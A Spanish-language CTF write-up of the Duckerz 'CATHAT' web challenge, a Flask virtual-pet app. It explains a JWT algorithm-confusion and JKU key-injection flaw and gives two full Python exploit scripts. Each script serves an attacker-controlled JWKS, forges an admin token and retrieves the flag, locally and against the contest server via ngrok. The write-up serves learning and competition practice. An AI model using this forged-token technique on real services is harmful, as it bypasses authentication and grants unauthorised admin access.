






# CATHAT

## Información del Desafío



| Campo | Detalle |
|-------|---------|
| **CTFTime** | https://ctftime.org/event/3067 |
| **Plataforma** | Duckerz CTF |
| **Nombre** | CATHAT |
| **Categoría** | Web |
| **URL del Desafío** | https://teams.duckerz.ru/categories/Web/25 |
| **URL de la Aplicación** | http://94.19.79.169:20005/ |
| **Archivos Adjuntos** | `cathat.zip` |


## Descripción del Desafío

> *CATHAT is your personal pet in monitor pixels! Upgrade your abilities, keep an eye on the happiness indicator and raise the level of your cat.*

## Análisis de la Aplicación

### Funcionalidad General

La aplicación es un sistema de gestión de mascotas virtuales desarrollado en Flask que permite a los usuarios:
1. **Registro y autenticación**: Crear cuentas de usuario y acceder al sistema mediante credenciales.
2. **Economía del juego**: Obtener monedas periódicamente mediante la funcionalidad "Farm Coin".
3. **Gestión de atributos**: Gastar monedas para mejorar las características del gato virtual.
4. **Sistema de privilegios**: Diferenciación entre usuarios regulares y administradores.






### Arquitectura del Sistema

Al extraer el archivo `cathat.zip` y analizar su estructura, se identificó la siguiente organización:

```
cathat/
├── templates/
│   ├── base.html
│   ├── index.html
│   ├── login.html
│   ├── profile.html
│   └── register.html
├── app.py              # Lógica principal de la aplicación
├── docker-compose.yaml
├── Dockerfile
└── requirements.txt
```

## Identificación de la Vulnerabilidad

### Análisis del Código Fuente

Durante la revisión del archivo `app.py`, se identificó una vulnerabilidad crítica en la función `verify_token()` (línea 169):

```python
elif alg == "HS256":
    if key_data.get("kty") == "oct":
        key = base64.urlsafe_b64decode(key_data["k"])
    else:
        key = key_data.get("n", "").encode()  # Vulnerabilidad Crítica
```

### Descripción de la Vulnerabilidad: JWT Key Confusion Attack

La vulnerabilidad permite un **ataque de confusión de algoritmos JWT (Algorithm Confusion Attack)** combinado con **suplantación de claves mediante JKU (JWK Set URL)**.

#### Condiciones del Ataque

El ataque es posible cuando un JWT malicioso contiene:
- **Algoritmo**: `alg: "HS256"` (en lugar de `RS256`)
- **URL de claves**: `jku: "http://malicious-server/jwks.json"` (JWK Set URL controlado por el atacante)
- **Tipo de clave**: Un JWK donde `kty` es diferente de `"oct"`

#### Mecanismo de Explotación

Cuando el servidor procesa el token:
1. Detecta el algoritmo HS256 en el header
2. Descarga el JWK desde la URL proporcionada en el campo `jku`
3. Al verificar que `kty != "oct"`, utiliza el campo `n` del JWK como clave HMAC
4. El atacante controla completamente la clave de verificación, permitiendo la firma de tokens arbitrarios

Una **Clave Web JSON (JWK)** es un formato basado en JSON utilizado para representar claves criptográficas en el contexto de **JSON Web Signature (JWS)** y **JSON Web Encryption (JWE)**. Este formato es fundamental para la validación de **JSON Web Tokens (JWT)**.

#### Atributos Principales de un JWK

| Atributo | Descripción | Ejemplos |
|----------|-------------|----------|
| `kty` (Key Type) | Familia de algoritmos criptográficos | `RSA`, `EC`, `oct` |
| `use` (Public Key Use) | Uso previsto de la clave | `sig` (firma), `enc` (encriptación) |
| `key_ops` (Key Operations) | Operaciones soportadas | `sign`, `verify`, `encrypt`, `decrypt` |
| `alg` (Algorithm) | Algoritmo específico | `RS256`, `ES256`, `HS256` |
| `kid` (Key ID) | Identificador único | Cualquier string único |
| `n` (Modulus) | Módulo RSA (para claves RSA) | String base64url |

> **Nota**: Excepto `kty`, todos los demás atributos son opcionales según la especificación RFC 7517.

## Diagrama del Flujo de Ataque

```
┌──────────────┐
│   Atacante   │
└──────┬───────┘
       │ 1. Despliegue de servidor JWKS malicioso
       ▼
┌─────────────────────────────────────┐
│  Servidor HTTP del Atacante         │
│  http://attacker:8080/jwks.json     │
│  {"keys": [{"n": "secret"}]}        │
└─────────────────────────────────────┘
       │
       │ 2. Registro y obtención de token legítimo
       ▼
┌─────────────────────────────┐
│  Token Normal               │
│  Payload: {"is_admin": false}│
└─────────┬───────────────────┘
          │
          │ 3. Modificación del token
          ▼
┌──────────────────────────────┐
│  Token Malicioso             │
│  Header:                     │
│    - alg: HS256              │
│    - jku: http://attacker... │
│  Payload:                    │
│    - is_admin: true          │
│  Firmado con clave controlada│
└─────────┬────────────────────┘
          │
          │ 4. Envío al servidor objetivo
          ▼
┌─────────────────────────────────────┐
│  Servidor Vulnerable                │
│  1. Lee jku del header              │
│  2. GET http://attacker/jwks.json   │
│  3. kty != "oct" → línea 169        │
│  4. key = "secret".encode()         │
│  5. Verificación exitosa            │
│  6. ✓ Token válido (is_admin:true)  │
└─────────┬───────────────────────────┘
          │
          ▼
     🚩 FLAG CAPTURADA 🚩
```

## Comparativa: Flujo Normal vs. Flujo Explotado

| Aspecto | Flujo Normal (RS256) | Flujo Explotado (HS256 + JKU) |
|---------|----------------------|-------------------------------|
| **Firma** | Servidor firma con clave PRIVADA | Atacante firma con clave propia |
| **Verificación** | Cliente verifica con clave PÚBLICA | Servidor verifica con clave del atacante |
| **Control** | Solo el servidor crea tokens válidos | El atacante puede crear tokens válidos |
| **Seguridad** | ✓ Seguro | ✗ Vulnerable |

## Desarrollo del Exploit

### Fase 1: Pruebas Locales

Para validar la vulnerabilidad, se levanto un entorno de pruebas local utilizando Docker e implementó un script de explotación en Python.

#### Script de Explotación Local (`exploit_local.py`)

```python
import jwt
import json
import requests
import time
import re
import sys
import warnings
from http.server import HTTPServer, BaseHTTPRequestHandler
import threading

# Suprimir warnings y logs
warnings.filterwarnings("ignore")
class QuietHandler(BaseHTTPRequestHandler):
    def log_message(self, *args): pass

# Configuración
TARGET = "http://localhost:5000"
JWKS_PORT = 8080
SECRET_KEY = "pwned_secret_key_123"

class JWKSHandler(QuietHandler):
    def do_GET(self):
        if self.path == "/jwks.json":
            self.send_response(200)
            self.send_header('Content-Type', 'application/json')
            self.end_headers()
            self.wfile.write(json.dumps({
                "keys": [{
                    "kty": "RSA",
                    "kid": "pwned",
                    "n": SECRET_KEY,
                    "use": "sig",
                    "alg": "HS256"
                }]
            }).encode())

def start_server():
    server = HTTPServer(("0.0.0.0", JWKS_PORT), JWKSHandler)
    threading.Thread(target=server.serve_forever, daemon=True).start()
    return server

def exploit():
    # 1. Registro
    user = f"u{int(time.time())}"
    requests.post(f"{TARGET}/register", json={"username": user, "password": "p"}, timeout=5)
    
    # 2. Login
    r = requests.post(f"{TARGET}/login", json={"username": user, "password": "p"}, timeout=5)
    token = r.json()["token"]
    payload = jwt.decode(token, options={"verify_signature": False})
    
    # 3. Crear token admin
    payload["is_admin"] = True
    admin_token = jwt.encode(
        payload,
        SECRET_KEY.encode(),
        algorithm="HS256",
        headers={"alg": "HS256", "typ": "JWT", "kid": "pwned", "jku": f"http://host.docker.internal:{JWKS_PORT}/jwks.json"}
    )
    
    # 4. Obtener flag
    time.sleep(0.5)
    r = requests.get(f"{TARGET}/", cookies={"token": admin_token}, timeout=5)
    
    if r.status_code == 200:
        flags = re.findall(r'(DUCKERZ\{[^}]+\}|FLAG\{[^}]+\}|HTB\{[^}]+\})', r.text, re.IGNORECASE)
        print(f"{flags[0]}")

if __name__ == "__main__":
    server = start_server()
    time.sleep(0.5)
    try:
        exploit()
    except:
        pass
    finally:
        server.shutdown()
```

#### Ejecución Local

Para la ejecución de los scripts utilice [uv](https://docs.astral.sh/uv/), una herramienta de alto rendimiento para Python que permite administrar dependencias y entornos virtuales, facilitando la instalación controlada de librerías y la ejecución reproducible del proyecto.

```bash
# Terminal 1: Despliegue de la aplicación objetivo
cd cathat
docker-compose up -d

# Terminal 2
uv init # Inicialización del proyecto uv
uv add pyjwt requests # Instalación de dependencias
uv run exploit_local.py # Ejecución del exploit
# Salida: DUCKERZ{fake_flag}
```



### Fase 2: Explotación Remota

Para obtener la flag real del servidor remoto (`http://94.19.79.169:20005/`), fue necesario adaptar el exploit para que el servidor JWKS malicioso fuera accesible desde internet. Se utilizó **ngrok** para exponer el servidor local.

Para la instalación de **ngrok** se realizaron los pasos definidos en la [página oficial](https://ngrok.com/download/windows?tab=download).


#### Script de Explotación Remota (`exploit_remoto.py`)

```python
import jwt
import json
import requests
import time
from http.server import HTTPServer, BaseHTTPRequestHandler
import threading
import warnings
import sys
import os

# Suprimir warnings de jwt (InsecureKeyLengthWarning)
warnings.filterwarnings("ignore", category=UserWarning)
warnings.filterwarnings("ignore", category=DeprecationWarning)

# Deshabilitar logs del servidor HTTP
class QuietHTTPHandler(BaseHTTPRequestHandler):
    def log_message(self, format, *args):
        # Sobrescribir para no imprimir nada
        pass

# Redirigir stderr a devnull (para eliminar logs del servidor)
sys.stderr = open(os.devnull, 'w')

# Configuración
TARGET = "http://94.19.79.169:20005"
NGROK_URL = "https://nonmetaphorically-agriological-dangelo.ngrok-free.dev"
JWKS_SERVER_PORT = 8080
SECRET_KEY = "pwned_secret_key_123"

# Servidor JWKS
class MaliciousJWKSHandler(BaseHTTPRequestHandler):
    def do_GET(self):
        if self.path == "/jwks.json":
            malicious_jwks = {
                "keys": [{
                    "kty": "RSA",
                    "kid": "pwned",
                    "n": SECRET_KEY,
                    "use": "sig",
                    "alg": "HS256"
                }]
            }
            
            self.send_response(200)
            self.send_header('Content-Type', 'application/json')
            self.send_header('Access-Control-Allow-Origin', '*')
            self.end_headers()
            self.wfile.write(json.dumps(malicious_jwks).encode())
        else:
            self.send_response(404)
            self.end_headers()

def start_jwks_server():
    server = HTTPServer(("0.0.0.0", JWKS_SERVER_PORT), MaliciousJWKSHandler)
    thread = threading.Thread(target=server.serve_forever, daemon=True)
    thread.start()
    return server

# Exploit
def exploit():
    ngrok_url = NGROK_URL.rstrip('/')
    jku_url = f"{ngrok_url}/jwks.json"
    
    # PASO 1: Registro
    username = f"hacker_{int(time.time())}"
    try:
        requests.post(f"{TARGET}/register", 
                     json={"username": username, "password": "password123"}, 
                     timeout=10)
    except:
        return
    
    # PASO 2: Login
    try:
        r = requests.post(f"{TARGET}/login", 
                         json={"username": username, "password": "password123"}, 
                         timeout=10)
        token = r.json()["token"]
        payload = jwt.decode(token, options={"verify_signature": False})
    except:
        return
    
    # PASO 3: Crear token admin
    payload["is_admin"] = True
    malicious_header = {
        "alg": "HS256",
        "typ": "JWT",
        "kid": "pwned",
        "jku": jku_url
    }
    
    admin_token = jwt.encode(
        payload, 
        SECRET_KEY.encode(), 
        algorithm="HS256", 
        headers=malicious_header
    )
    
    # PASO 4: Obtener FLAG
    time.sleep(1)
    try:
        cookies = {"token": admin_token}
        r = requests.get(f"{TARGET}/", cookies=cookies, timeout=10)
        
        if r.status_code == 200:
            # Buscar flag - ÚNICO CONSOLE.LOG/PRINT
            import re
            flags = re.findall(r'(DUCKERZ\{[^}]+\}|HTB\{[^}]+\}|FLAG\{[^}]+\})', 
                              r.text, re.IGNORECASE)
            real_flags = [f for f in flags if "fake" not in f.lower()]
            
            if real_flags:
                print(real_flags[0])  # ← ÚNICO PRINT PARA LA FLAG
    except:
        pass

# Main
def main():
    server = start_jwks_server()
    time.sleep(1)
    
    try:
        exploit()
    except:
        pass
    finally:
        server.shutdown()

if __name__ == "__main__":
    main()
```

#### Ejecución Remota

```bash
# Terminal 1: Exposición del servidor JWKS mediante ngrok
ngrok http 8080

# Terminal 2: Ejecución del exploit adaptado
uv run exploit_remoto.py
```



## Resultado

**Flag obtenida**: `DUCKERZ{s3cr3t$_h!dD3N_!N_J$0N_W3bT0k3N}`
